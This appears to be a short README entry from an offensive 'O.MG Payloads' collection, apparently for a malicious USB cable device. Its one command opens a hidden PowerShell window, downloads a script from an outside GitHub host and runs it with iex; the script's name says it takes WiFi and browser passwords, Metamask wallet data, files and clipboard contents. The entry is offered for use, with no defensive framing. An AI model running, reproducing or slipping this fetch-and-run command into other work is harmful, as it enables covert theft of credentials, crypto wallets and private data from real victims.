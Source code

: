 # O.MG Payloads

**Run Invisible PowerShell Window:**
`conhost --headless powershell.exe -Command "irm https://raw.githubusercontent.com/WesleyWong420/OPSEC-Tradecraft/refs/heads/main/O.MG%20Payloads/WiFi_Browser_Passwords_Metamask_FilesExfil_ClipboardData.ps1 | iex"`
